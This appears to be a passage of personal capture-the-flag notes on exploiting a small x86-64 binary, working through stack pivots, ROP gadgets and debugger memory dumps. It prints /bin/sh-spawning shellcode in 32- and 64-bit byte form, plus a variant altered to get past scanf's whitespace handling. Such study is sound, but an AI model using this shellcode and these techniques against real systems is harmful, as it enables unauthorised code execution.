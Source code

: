 #### ideas 
* execution on name 
    let's check if I can jump to name's address on the stack.
    * insert the stack address, then jump to it.
    * use a value inside a register and call it  
        i could `0x400deb : call rdi` and if this value will be `nop` I could sled to shellcode 
        `*RDI  0x7ffd7101f200 —▸ 0x7f85b5cb3050 (funlockfile) ◂— endbr64`  
        shellcode location:  `0x7ffd710214a0 ◂— 0x68732f2f6850c031`
        `0x7ffd71021460 - buff location` the location of `rdi` co
    * use a value on the stack which points to name 
        didn't found anything interesting...
    * use `o` (name's address on the heap)  
    	I could change `rsp` to be `o`'s  location. Then just return.
    	`leave` ret
    	`0x00000000004007be : leave ; ret`
    	don't forget that the new `rbp` should be - 8 bytes because we pop `rbp` before returning
    	**problem**
        	this can't work because the heap is not executable...
	shellcode 
        32bit `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80` `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x2C\xF4\xcd\x80`
        64 bit
        `\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05`


	**problem**
        when using the shellcode it contains a byte 0x0b which is one of the white-space characters in c.
        this causes `scanf` to to scan only part of the shellcode. And the other part is detected as not a digit in i's scan. 
        **solution**
        I could change the shellcode and use another byte.
        `sub    al,0xf4` instead of `mov al, 0xb`
	**problem**
	 we send an address of 32 bits long instead of 64 XD.
	**problem**
        ```
        00:0000│ rsp 0x7fffffffdaa8 —▸ 0x400a6c (main+443) ◂— jmp 0x4009a9
        01:0008│     0x7fffffffdab0 ◂— 0x0
        02:0010│     0x7fffffffdab8 ◂— 0x100000000
        03:0018│     0x7fffffffdac0 ◂— 'AAAAAAAAAAAAAAAAAAAAAAA'
        ```
        it's two 8 bytes away :) and it's on the stack!
        `0x0000000000400761 : pop rbx ; pop rbp ; ret` let's get it.
        this direction was not good because we will jump to the contents of the shellcode!
        I can just jump to the global variable
* execution on buff
	**problem** 
	we don't have the stack address.
	
	**ideas**
	* return to buff (using values on the stack)
		where is the buff location on the stack? what's the offset from the ret in echo1 after jumping to a gadget?
		```
		0x7fffffffda78 - location which stores &buf
		0x7fffffffda90 - &buf
		0x7fffffffdab8 - ret location
		```
		the offset is 8 bytes *below*.  `rsp` - 8 bytes = `&buf` 
		**problem**
			`&buf` only on the stack below the current `rsp` which means it would be harder to ret using that address.	  
		**ideas**
	        `leave` (`rsp` will become the override `rbp`)